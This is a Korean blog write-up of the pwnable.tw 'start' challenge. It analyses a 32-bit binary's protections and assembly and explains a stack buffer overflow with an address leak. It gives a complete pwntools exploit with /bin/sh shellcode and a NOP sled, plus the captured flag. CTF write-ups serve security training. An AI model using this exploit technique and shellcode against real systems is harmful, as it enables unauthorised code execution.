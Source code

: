 ```yaml
---
layout: post
title: "[pwnable.tw] start"
comments : true
category : War Game
---
```


# 문제
***

start 바이너리의 checksec 결과는 다음과 같다. (peda 안에 구현된 checksec을 사용하면 NX가 걸려 있는 것으로 나옴...뭐지?)
```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE
```

file 명령어의 결과는 다음과 같다.
```
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```


statically linked이고 syscall 밖에 사용하지 않으므로 사용할 수 있는 라이브러리 함수가 없다.






어셈블리 코드 _start()
```
public _start
_start proc near
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    ':FTC'
push    ' eht'
push    ' tra'
push    'ts s'
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch
mov     al, 3
int     80h             ; LINUX - sys_read
add     esp, 14h
retn
```

sys_read 함수에서 bof가 발생한다. (NX가 disabled되어 있기 때문에 stack에 실행 권한이 있다.)


또한 _start의 가장 처음에 실행되는 ```push esp```를 통해서 stack에 (ret 위치 +4) ret 위치 + 8을 가리키는 주소가 저장된다. 이 값을 leak하면 ASLR을 우회할 수 있다.

## exploit 방법
1. bof를 통해서 ret를 ```mov ecx, esp```의 위치로 바꾸면 sys_write를 통해서 ret 위치 +8 값을 읽어올 수 있다.
2. sys_write 다음에 호출되는 sys_read를 통해서 shellcode를 삽입하고 eip를 control한다.


# 풀이
***
```
#!/usr/bin/python

from pwn import *

#context.log_level = 'debug'

shell="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
write_read=0x08048087

#p=process("/home/sungyun/round3/start/start")
p=remote("chall.pwnable.tw", 10000)

p.recvuntil("CTF:")

pay="A"*20
pay+=p32(write_read)

p.send(pay)

stack=u32(p.recv(4))
p.recv(16)

pay2="A"*20
pay2+=p32(stack+20)
pay2+="\x90"*10
pay2+=shell

p.send(pay2)

p.interactive()
```

flag : FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}

(/home/start/에 존재)

